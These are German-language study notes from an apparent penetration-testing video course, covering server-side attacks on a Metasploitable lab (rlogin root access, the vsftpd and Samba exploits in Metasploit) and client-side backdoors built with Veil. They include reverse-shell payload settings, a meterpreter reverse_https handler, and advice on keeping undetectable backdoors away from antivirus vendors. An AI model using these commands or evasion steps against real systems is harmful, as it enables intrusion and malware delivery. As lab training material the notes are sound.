 ```yaml
---
title: Gaining Access
---
```




# Gaining Access

Video 58

Jedes elektronische Gerät ist ein Computer (Betriebssystem, Installierte Programme, Konfigurationen, User).

Zwei Ansätze:

- Server Side: Nur IP Adresse bekannt. Ohne user interaction.
- Client Side: User Interaktion notwendig (trojan, social engineering)



# Metasploitable

Video 59

Download und installieren (mit VmWare)



# Server Side Attacks

## Information Gathering

- Default Passwords
- mis-configured services, e.g. "r" Service auf Ports 512, 513, 514
  - services sind dazu da um Zugriff auf den Computer zu erlauben
- Services die backdoors enthalten.
- code execution vulnerablities



## Video 61, 5:00

zenmap (nmap) auf metasploitable

512/tcp port: Rexec, Remote Process Execution [[wikipedia](https://de.wikipedia.org/wiki/Liste_der_standardisierten_Ports#300_%E2%80%A6_599)]

Google: "netkit-rsh rexecd"

`netkit-rsh` ist der Ubuntu Paketname. Verbindung mit `rsh-client` 

Unter Kali:

```sh
$ apt install rsh-client
$ rlogin --help
$ rlogin -l root <metasploitable-ip>
```

Keine Frage nach Passwort. Dann bekammt man eine root shell auf Metasploitable

```
id
pwd
ls
uname -a
```

D.h. root Kontrolle über den Zielrechner wegen Fehler in der Konfiguraiton (misconfiguration).



## Video 62 – backdoor

Nutzen eines backdoors (geheime Funktion in einem normalen Programm).

Google `vsftpd 2.3.4`

- [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

Google `vsftpd 2.3.4 exploit`

- [Rapid7 VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
  Rapid7: creator of metasploit, Seite beschreibt das exploit modul
- [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523), [CVE=Common Vulnerabilities and Exposures](https://www.redhat.com/en/topics/security/what-is-cve)

![image-20210825104413023](fig/image-20210825104413023.png)



Video 62, 4:28 – verwenden von metasploit



## Video 63 – Code Execution Vulnerability

![image-20210825110501454](fig/image-20210825110501454.png)

- [Rapid7: Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
- [exploit-db.com](https://www.exploit-db.com/exploits/16320)
- [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447)
- [Hintergründe der Schwachstelle](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)

Video 63, 1:57 – verwenden von metasploit

code execution vulnerability: Diese Schwachstelle erlaubt das Ausführen eines kleinen Programms, diese werden als payload bezeichnet. 

Welche payloads man mit einem gewählten exploit in metsploit verwenden kann sieht man mit:

```
msf exploit(usermap_script) > show payloads 
```

>  payloads are small pieces of code that will be executed on the target computer once the vulnerablity has been exploited. [Zaid]

- Bind payloads: Öffnen einen Port am Target Computer, dahinter ist ein Programm, z.B. shell. Verbindung geht vom Angriffs Computer aus.
- Reverse payloads: Starten ein Programm am Target und versuchen eine Verbindung mit dem Angriffs-Computer aufzubauen. Dies erlaubt das umgehen von Firewalls die meist nur ankommende Verbindungen blocken.

```
> set PAYLOAD cmd/unix/reverse_netcat
```

Das setzen der Payload bewirkt dass zusätzliche Optionen gesetzt werden können/müssen (in diesem Fall `LHOST`).

`LPORT` könnte auch auf 80 gesetzt werden, Vorteil dieser wird nicht gefiltert (sonst kein Internet surfen möglich).

![image-20210825120408057](fig/image-20210825120408057.png)



## Video 64/65 – nexpose

Vulnerability Management Framework. Von Rapid7.

8 GB



# Client Side Attacks

Z.B. wenn 

- keine Server Side Attack Schwachstelle gefunden werden kann, oder 
- der Zielrechner nicht im Netz erreicht werden kann.

Bei diesen Angriffen muss der User etwas tun (File öffnen, ....)

Information Gathering ist sehr wichtig, man muss die Person kennen (z.B. welche Websites werden oft verwendet)

## Backdoor

Video 69

Mit Veil Framework

Um backdoors zu erzeugen die nicht von AV erkannt werden.

Muss installiert werden, ist ziemlich umfangreich.

Video 70

- Evasion: generate undetectable backdoors
- Ordnance: create the payloads (z.B. shell, download, ...)

Evasion:

- `list` zeigt alle payloads

Video 71

Evasion...

```
use 15
```

![image-20210826105343399](fig/image-20210826105343399.png)



Zum Testen: virustotal: nicht verwenden weil die Ergebnisse mit AV Herstellern geteilt werden. Alternative: NoDistribute

Video 72

Port öffnen für die Backdoor `go/meterpreter/rev_https`, port 8080

Mit metasploit (gleiche Programmierer wie veil)

```
$ msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST <local IP>
> set LPORT 8080
> exploit
```

Alle Optionen identisch zur generierten backdoor setzen.



Video 73 – Using A Basic Delivery Method To Test The Backdoor & Hack Windows 10

